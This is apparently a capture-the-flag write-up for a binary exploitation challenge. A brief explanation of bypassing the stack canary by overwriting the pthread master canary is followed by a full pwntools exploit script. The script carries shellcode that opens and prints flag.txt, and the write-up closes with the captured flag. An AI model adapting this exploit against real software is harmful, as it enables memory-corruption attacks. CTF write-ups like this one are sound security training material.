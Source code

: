 # Recover your vision

## Solution

Because the program use pthread, master canary is on the stack.

Use stack buffer overflow to overwrite canary and master canary together.

We get buffer's address initially. Write shellcode at the buffer and jump to that address.

We can use open, read, and write system call, so read and print out `flag.txt`.

```python
import pwn
# p = pwn.process(['./ld-linux-x86-64.so.2','./blind'],env={"LD_PRELOAD": "./libc.so.6"})
HOST="e9c7bd64c6c4e71aba4b13253eaf67ae.chal.ctf.ae"
p = pwn.remote(HOST, 443, ssl=True, sni=HOST)
# pwn.gdb.attach(p, 'break *0x40140b\n')

p.recvuntil(b'Buffer: ')
buf_addr = int(p.recvline().strip().decode(),16)

p.recvuntil(b'shellcode: ')
p.sendline(b'10000')

p.recvuntil(b'Escape> ')


# flag.txt : 66 6c 61 67 2e 74 78 74 00
shellcode = '''
xor rax, rax
push rax
mov rbx, 0x7478742e67616c66 
push rbx
push rsp
pop rdi
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

mov rdi, rax
mov rsi, rsp
mov rdx, 100
mov rax, 0
syscall

mov rdi, 2
mov rsi, rsp
mov rdx, 100
mov rax, 1
syscall

mov rax, 60
syscall
'''

# master canary - stack canary = 0x820


new_canary = b'\0\0\0\0\0\0\0\0'
pwn.context.arch = 'x86_64'
shellcode_bin = pwn.asm(shellcode)
print(len(shellcode_bin))
print(pwn.hexdump(shellcode_bin))
fs_base = buf_addr + 0x880
payload = shellcode_bin.ljust(0x78, b'\0') + new_canary + b'B'*8 + pwn.p64(buf_addr) + b'A'*(0x7f0) + \
    pwn.p64(fs_base)+pwn.p64(fs_base+0xa20)+pwn.p64(fs_base)+pwn.p64(1)+pwn.p64(0)+ new_canary # fs:28

print(len(payload))
p.send(payload)

p.interactive()
```

flag is : **flag{RiQM18hm4nihV3j0HUnblB9AmIRZwhh4}**